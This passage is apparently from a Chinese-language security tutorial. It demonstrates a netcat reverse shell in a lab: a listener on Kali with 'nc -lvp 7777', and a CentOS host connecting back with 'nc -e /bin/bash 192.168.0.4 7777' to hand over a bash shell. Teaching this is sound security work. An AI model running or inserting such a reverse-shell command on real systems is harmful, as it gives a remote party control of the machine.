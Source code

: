 



之后在kali上使用nc监听端口：



```
nc -lvp 7777
```





[![4JlKI8AAa8.png](Untitled.assets/15319947202742.png)](https://image.3001.net/images/20180719/15319947202742.png)





在CentOS上使用nc去反向连接，命令如下：



```
nc -e /bin/bash 192.168.0.4 7777
```





[![lk26I81B39.png](Untitled.assets/15319947419553.png)](https://image.3001.net/images/20180719/15319947419553.png)这里的-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(`/bin/bash`)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。





[![G0j42BbeEI.png](Untitled.assets/15319947622295.png)](https://image.3001.net/images/20180719/15319947622295.png)
